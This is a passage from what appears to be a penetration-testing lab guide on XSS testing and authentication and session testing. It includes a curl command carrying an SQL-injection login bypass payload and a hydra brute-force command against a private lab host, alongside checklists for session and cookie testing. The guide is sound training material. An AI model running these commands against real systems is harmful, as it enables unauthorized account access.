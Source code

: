 **💡 XSS Testing Strategy:**
- Multiple payload encodings
- Context-specific testing
- Browser compatibility
- Impact demonstration

**💡 Real-World Impact:**
- Session hijacking
- CSRF token theft
- Keylogging
- Phishing attacks
- Administrative access

**💡 Professional Documentation:**
- Screenshot evidence
- Payload details
- Reproduction steps
- Business impact assessment

### Phase 6: Authentication and Session Testing

**Authentication Bypass Testing:**

```bash
# SQL injection in login
curl -X POST "http://192.168.0.169:8080/login.php" \
  --data "username=admin' OR '1'='1'--&password=anything"

# Brute force simulation
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  192.168.0.169 http-post-form \
  "/login.php:username=^USER^&password=^PASS^:Login failed"
```

**Session Management Testing:**
1. **Session Fixation:**
   - Capture session tokens
   - Test token predictability
   - Session timeout testing

2. **CSRF Testing:**
   - Generate CSRF POCs
   - Test token validation
   - Cross-origin requests

3. **Cookie Analysis:**
   - HttpOnly flag testing
   - Secure flag verification
   - SameSite attribute check

**💡 Authentication Security:**
- Login mechanism bypass
- Password policy enforcement
- Account lockout mechanisms
- Multi-factor authentication
